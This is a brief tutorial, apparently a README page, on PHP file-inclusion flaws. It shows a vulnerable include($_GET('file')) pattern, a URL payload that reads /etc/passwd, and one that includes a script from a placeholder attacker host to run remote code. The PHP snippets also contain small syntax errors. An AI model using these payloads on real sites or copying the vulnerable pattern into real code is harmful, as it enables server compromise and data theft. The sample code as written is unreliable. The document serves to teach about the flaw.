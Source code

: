 # The include fault

The include () function in PHP is used to execute php code that is located in another file. Example:

```
<?php

include(bth.php)
```

In this case, the code in bth.php will be executed.

If the developer writes this code:
```
<?php

include($_GET('file'));
```

To exploit this vulnerability, we can use the following URL:

>monsite.tld/index.php?file=/etc/passwd

Here the "include" function will include the text of the "/ etc / passwd" file, and thus display its contents. It is possible to change "/ etc / passwd" to another server file that is normally not accessible, or even remote code accessible from another server.

Exemple : 

>monsite.tld/index.php?file=http://badsite.tmld/script.txt